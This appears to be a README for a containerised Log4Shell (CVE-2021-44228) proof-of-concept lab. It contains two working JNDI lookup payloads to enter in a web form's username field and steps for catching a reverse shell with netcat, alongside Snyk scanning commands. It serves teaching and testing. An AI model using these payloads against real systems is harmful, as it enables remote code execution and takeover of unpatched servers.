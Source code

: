 ## Log4shell proof of concept
Proof of concept for CVE-2021-44228. To learn more about log4shell, check the
summary by [Snyk](https://github.com/snyk-labs/awesome-log4shell).

## To start all containers

```docker-compose up```

### Exploit 1:
Go go `localhost:8080` and fill username:

```${jndi:ldap://exploit:9999/Evil}```


### Exploit 2:

```${jndi:ldap://reverse-shell:1389/a}```

### Snyk
```
snyk log4shell
snyk test --all-projects
```

### Shell 1
Start terminal in web-server

`docker-compose up web-server`

### Shell 2

```
docker-compose up exploit
docker-compose up reverse-shell
```

### Shell 3
Check web server to see if exploit worked:

`docker-compose exec web-server bash`

### Shell 4
Start terminal in ubuntu and listen for reverse shell:
```
docker-compose up -d ubuntu
docker-compose exec ubuntu bash
nc -lv 9001
```

## Credit
This PoC is heavily based on these resources:
- [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)
- [snyk-labs/java-goof](https://github.com/snyk-labs/java-goof/tree/main/log4shell-goof)
